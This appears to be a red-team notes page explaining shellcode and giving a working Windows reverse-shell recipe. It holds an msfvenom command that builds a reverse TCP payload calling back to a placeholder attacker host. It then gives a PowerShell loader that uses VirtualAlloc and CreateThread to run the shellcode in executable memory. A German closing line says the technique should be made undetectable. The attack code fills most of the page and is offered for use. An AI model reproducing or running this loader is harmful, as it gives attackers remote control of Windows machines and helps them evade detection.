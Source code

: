 #Shell #AD #Windows #Powershell #Exploit #Red-Team 

## What is a shell code?

#### Shellcode is a small piece of code used as a payload to exploit vulnerabilities and execute commands on a target system, often giving an attacker control.



## Payload:

### Generate the shell code with **msfvenom**

### `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell`

### Then execute the commands bellow with the generated shell code.

### 1.
````
$VrtAlloc = @" using System; using System.Runtime.InteropServices; public class VrtAlloc{ [DllImport("kernel32")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); } "@ Add-Type $VrtAlloc $WaitFor= @" using System; using System.Runtime.InteropServices; public class WaitFor{ [DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); } "@ Add-Type $WaitFor $CrtThread= @" using System; using System.Runtime.InteropServices; public class CrtThread{ [DllImport("kernel32", CharSet=CharSet.Ansi)] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); } "@ Add-Type $CrtThread
````

### 2.
### `[Byte[]] $buf = SHELLCODE_PLACEHOLDER`

### 3.

````
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40) [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length) $thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0) [WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
````

## ES SOLL UNBEMERKTAR GEMACHT WERDEN!
